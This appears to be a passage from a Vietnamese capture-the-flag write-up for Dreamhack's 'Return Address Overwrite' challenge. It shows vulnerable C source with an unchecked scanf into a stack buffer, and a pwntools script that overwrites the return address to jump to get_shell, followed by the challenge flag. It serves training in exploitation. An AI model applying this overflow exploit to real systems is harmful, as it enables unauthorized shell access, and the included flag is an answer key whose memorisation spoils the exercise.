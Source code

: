 ```python=

p.sendline(payload)
p.interactive() 
```

# [Return Address Overwrite](https://dreamhack.io/wargame/challenges/351)

```c
#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```
- Ghi đè địa chỉ hàm `get_shell` để lấy được shell và đọc flag
### Script
```python=
#!/usr/bin/python3

from pwn import *

p = remote('host3.dreamhack.games', 17894)

get_shell = 0x4006aa

payload = b'A'*56
payload += p64(get_shell)

p.sendline(payload)
p.interactive()
```
> ***DH{5f47cd0e441bdc6ce8bf6b8a3a0608dc}***
